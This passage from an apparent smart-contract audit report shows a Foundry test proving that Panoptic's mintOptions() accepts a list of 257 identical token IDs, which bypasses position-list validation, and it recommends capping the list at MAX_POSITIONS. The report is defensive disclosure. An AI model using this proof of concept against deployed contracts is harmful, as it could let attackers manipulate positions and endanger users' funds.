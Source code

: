 Add the following test code in `PanopticPool.t.sol`, we can see that passing 257 of the same token ids can still work for `mintOptions()`.

```solidity
    function test_duplicatePositionHash(
        uint256 x,
        uint256[2] memory widthSeeds,
        int256[2] memory strikeSeeds,
        uint256[2] memory positionSizeSeeds,
        uint256 swapSizeSeed
    ) public {
        _initPool(x);

        (int24 width, int24 strike) = PositionUtils.getOTMSW(
            widthSeeds[0],
            strikeSeeds[0],
            uint24(tickSpacing),
            currentTick,
            0
        );

        (int24 width2, int24 strike2) = PositionUtils.getOTMSW(
            widthSeeds[1],
            strikeSeeds[1],
            uint24(tickSpacing),
            currentTick,
            0
        );
        vm.assume(width2 != width || strike2 != strike);

        populatePositionData([width, width2], [strike, strike2], positionSizeSeeds);

        // leg 1
        TokenId tokenId = TokenId.wrap(0).addPoolId(poolId).addLeg(
            0, 1, isWETH, 0, 0, 0, strike, width
        );

        TokenId[] memory posIdList = new TokenId[](257);
        for (uint i = 0; i < 257; ++i) {
            posIdList[i] = tokenId;
        }
        pp.mintOptions(posIdList, positionSizes[0], 0, 0, 0);
    }
```

### Recommended Mitigation Steps

Add a check in `_validatePositionList` that the length is shorter than `MAX_POSITIONS` (32).

### Assessed type

Invalid Validation
